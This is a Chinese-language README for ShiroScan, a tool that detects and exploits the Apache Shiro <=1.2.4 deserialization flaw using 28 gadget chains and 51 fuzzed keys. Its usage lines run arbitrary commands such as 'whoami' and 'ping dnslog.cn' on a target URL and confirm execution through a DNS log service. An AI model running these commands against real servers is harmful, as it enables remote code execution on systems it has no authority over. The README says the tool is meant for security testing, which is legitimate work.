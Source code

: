 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

    改动内容：1.新增17个利用链模块,共28个利用链，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
    改动内容：2.可直接获得目标使用key值
    改动内容：3.新增30个key(再多意义也不大)

```
共集成51个key进行fuzz
```

* 如果有帮助，请点个star哦，对应blog文章：http://www.svenbeast.com/post/tskRKJIPg/
* pip3 install -r requirments.txt   
* 若import模块错误，安装不成功，请到linux系统安装运行，或者去python库将crypto首字母改为大写并尝试pip install pycryptodome")

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 28个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为目标使用的编码很冷门，可使用其他工具

* 请自行收集编码，在moule下的key.log中自行添加即可(格式: key:任意值)

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞
